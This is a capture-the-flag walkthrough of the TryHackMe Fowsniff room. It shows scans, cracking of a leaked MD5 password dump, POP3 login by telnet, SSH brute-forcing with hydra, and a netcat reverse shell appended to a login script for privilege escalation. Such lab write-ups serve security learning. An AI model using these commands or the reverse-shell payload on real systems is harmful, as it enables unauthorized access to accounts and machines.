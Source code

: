 # Fowsniff CTF

**Room Link:** [https://tryhackme.com/room/ctf](https://tryhackme.com/room/ctf)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (24) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (26) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The homepage mentioned there was an attack. If you go to their twitter page the hacker says he dumped all the users password in pastebin. When I did this writeup the pastebin had been taken down so I just took it from another walkthrough.

<figure><img src="../../.gitbook/assets/image (20) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (23) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



```
FOWSNIFF CORP PASSWORD LEAK
            ''~``
           ( o o )
+-----.oooO--(_)--Oooo.------+
|                            |
|          FOWSNIFF          |
|            got             |
|           PWN3D!!!         |
|                            |         
|       .oooO                |         
|        (   )   Oooo.       |         
+---------\ (----(   )-------+
           \_)    ) /
                 (_/
FowSniff Corp got pwn3d by B1gN1nj4!
No one is safe from my 1337 skillz!


mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e

Fowsniff Corporation Passwords LEAKED!
FOWSNIFF CORP PASSWORD DUMP!

Here are their email passwords dumped from their databases.
They left their pop3 server WIDE OPEN, too!

MD5 is insecure, so you shouldn't have trouble cracking them but I was too lazy haha =P

l8r n00bz!

B1gN1nj4

```



**Kali**



```
john --format=raw-md5 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (15) (1) (2).png" alt=""><figcaption></figcaption></figure>



```
mauer@fowsniff:mailcall
mustikka@fowsniff:bilbo101
tegel@fowsniff:apples01
baksteen@fowsniff:skyler22
seina@fowsniff:scoobydoo2
mursten@fowsniff:carp4ever
parede@fowsniff:orlando12
sciana@fowsniff:07011972
```







### TCP/110 - POP3

**Kali**

```
hydra -L users2 -P pass.txt -f $VICTIM pop3 -V
```

<figure><img src="../../.gitbook/assets/image (25) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
telnet $VICTIM 110

USER seina
PASS scoobydoo2
RETR 1
```

<figure><img src="../../.gitbook/assets/image (29) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
telnet $VICTIM 110

USER seina
PASS scoobydoo2
RETR 2
```

<figure><img src="../../.gitbook/assets/image (30) (1) (2).png" alt=""><figcaption></figcaption></figure>

### TCP/22 - SSH

**Kali**

```
hydra -L users2 -p "S1ck3nBluff+secureshell" $VICTIM -t4 ssh
```

<figure><img src="../../.gitbook/assets/image (22) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh baksteen@$VICTIM
Password: S1ck3nBluff+secureshell
```

<figure><img src="../../.gitbook/assets/image (37) (2).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
id
groups
find / -type f -group users 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (42) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc $KALI 1337 >/tmp/f" >> /opt/cube/cube.sh
```

**Kali**

```
nc -lvnp 1337
```

**Victim**

```
ssh baksteen@$VICTIM
Password: S1ck3nBluff+secureshell
```

<figure><img src="../../.gitbook/assets/image (36) (2).png" alt=""><figcaption></figcaption></figure>





























